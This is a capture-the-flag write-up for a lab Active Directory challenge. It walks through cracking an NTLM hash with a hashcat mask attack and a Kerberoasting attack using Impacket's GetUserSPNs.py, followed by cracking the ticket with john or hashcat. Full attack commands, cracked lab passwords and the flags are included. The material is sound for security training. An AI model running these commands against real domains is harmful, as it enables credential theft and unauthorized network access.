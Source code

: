 # Scorching

Windows domains are hot. Scorching even. Note: a domain controller is spun up on-demand. It may take a while to fully boot upon launch. Verify whether it's online by checking if port 445 is open on <10.6.0.2>.

**NOTE** : The private _OpenVPN_ configuration file is required

## Writeup

### Task 1 - Password (75 points)

Can you find out the password for the hash in the file? It is the account for the "NAccount" user.

**Hint**: The password does not meet the password complexity policy as it is _less than 8 characters and only includes letters and numbers.

Given an unknown hash, and the intel that this password is formed with less than 8 characters and only includes letters and numbers_.

1. According to ref[1], it seems that this hash is likely to be a NTLM hash because of the first part of the hash gives `aad3b435b51404eeaad3b435b51404ee`, which means that it is not being stored as an LM hash. Also, NTLM is a hashing algorithm created by Microsoft, which is appropriate to this challenge

	![Analysis on given hash in format NTLM](./img/task_1_step_1_given_hash_partition.png)

2. Thus, mask attack with hashcat was used to crack the 2nd part (ie. LMhash:NThash) of the given hash (stored in text file `ntlm.txt`), and command `hashcat -a3 -m1000 -O -1 ?l?u?d ntlm.txt ?1?1?1?1?1?1?1 --increment -v` is used to launch the definied mask attack with hashcat, which

	- `-a3` : Mask attack code
	- `-m1000` : Hash type code
	- `-1 ?l?u?d` : First custom charset option, see [ref](https://hashcat.net/wiki/doku.php?id=mask_attack) for more details
	- `ntlm.txt` : Hash file that contains the hash to be cracked here
	- `?1?1?1?1?1?1?1` : Mask to be used in final increment
	- `--increment` : Enable incremental masking attack, which the cracking will start from ?1 to ?1?1 to ?1?1?1 to ... to ?1?1?1?1?1?1?1 (end)

	![Successful mask attack on the given NTLM hash with hashcat](./img/task_1_step_2_ntlm_hash_cracked_hashcat.png)

3. You should be able to see the password in plaintext when the NThash is cracked, ie. `NAccount:H4cky21`

### Task 2 - Scorching (100 points)

Can you find out the flag hidden in the shared directory for the "SAccount" user?
Hint: the password is part of rockyou.txt.

0. Given the recon with `nmap` toward the target url, we can see that the port `445` with common vulnerable (cuz of `smb`) service `microsoft-ds`  version `2012 R2` is open

	![All open ports listed with corresponding service with nmap](./img/task_2_step_0a_nmap_scan_port_445_open.png)

	![Service details running on port 445](./img/task_2_step_0b_nmap_port_445_all_details.png)

1. Although now we have the credential of `NAccount:H4cky21`, however we need to access the shared directory as user `SAccount`, which is not accessible by NAccount. So first we can start from finding accessible and non-accessible directories with command `smbmap -u "NAccount" -p "<password>" -H 10.6.0.2`

	![List shared directories and relevant permissions as NAccount with smbmap](./img/task_2_step_1_smbmap_scan_result_perm.png)

2. Since the task name `scorching` has a synonym `roasting`, thus we can deduce that it is related to `Kerberoasting attack` (see [here](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast) to know more)
3. By using the Python script [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from [Impacket](https://github.com/SecureAuthCorp/impacket), which allows us to find Service Principal Names (SPNs) that are associated with normal user account, we are able to find the **Keberos** hash of user `SAccount` with command `python3 <path>/GetUserSPNs.py -request -dc-ip <IP_ADDRESS> <DOMAIN.FULL>/<USERNAME>:<PASSWORD>`

| Option                | Description                                                                                      |
| --------------------- | ------------------------------------------------------------------------------------------------ |
| `-request`            | Requests TGS (Ticket-Granting Service) for users and output them in JohnTheRipper/hashcat format |
| `-dc-ip <IP_ADDRESS>` | IP address of the Domain Controller, ie. `10.6.0.2` here                                         |
| `<DOMAIN.FULL>`       | insecureAD.local                                                                                 |

ie.  `python3 <path>/GetUserSPNs.py insecureAD.local/NAccount:<password> -dc-ip 10.6.0.2 -request`

**NOTE** : Use command `locate <FILE_NAME>` to find if the Python script can be found on your Linux system, or it may be required to clone the `Impacket` repo to and set it up in order to run the script.

![Found SAccount's Keberos hash dump with GetUserSPNs.py Python script](./img/task_2_step_3_kerberos_hash_for_user_SAccount.png)

4. After copy the entire Keberos hash returned to file `kerberos_dump.hash`, we can use JohnTheRipper or Hashcat to crack this hash, with wordlist `rockyou.txt` (available [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) or `/usr/share/wordlists` directory on Kali)

- JohnTheRipper command `john kerberos_dump.hash --wordlist=<path_to_rockyou> && john kerberos_dump.hash --show`
- Hashcat command `hashcat64 -a 0 -m 13100 kerberos_dump.hash <path_to_rockyou>`

	![Crack the Keberos dump hash with John The Ripper successfully](./img/task_2_step_4_kerberos_hash_cracked_successfully.png)

5. After cracking the Keberos hash (password should be `MySpaceXXX`), we are able to access those shared directories as user `SAccount` now, and we can see that the directory `SpaceRace` is *readable* with this account. Thus, the flag file on this directory should be readable too.

	![Access the directory `SpaceRace` as user `SAccount` and read the flag file successfully](./img/task_2_step_5_access_smb_directory_successfully.png)

## Flags

1. H4cky21
2. CTF{Kerberoasting_Flag_SpaceRace}

## References

- [SecretsDump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)
- [Intro to Windows Hashes](https://chryzsh.gitbooks.io/darthsidious/content/getting-started/intro-to-windows-hashes.html)
- [About Hashcat](https://hashcat.net/hashcat/)
- [Mask Attack with Hashcat](https://hashcat.net/wiki/doku.php?id=mask_attack)
- [SANS : SMB Access From Linux](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blta6a2ae64ec0ed535/5eb08aaeead3926127b4df44/SMB-Access-from-Linux.pdf)
- [Abput Kerberoast Attack](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)
- [Impacket : a collection of Python classes for working with network protocols](https://github.com/SecureAuthCorp/impacket)
- [Wikipedia - Keberos](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [A little guide to SMB enumeration](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)
- [Brute Force Service Cheat Sheet](https://book.hacktricks.xyz/brute-force)
- [About Hashcat](https://hashcat.net/hashcat/)
- [About John The Ripper](https://www.openwall.com/john/)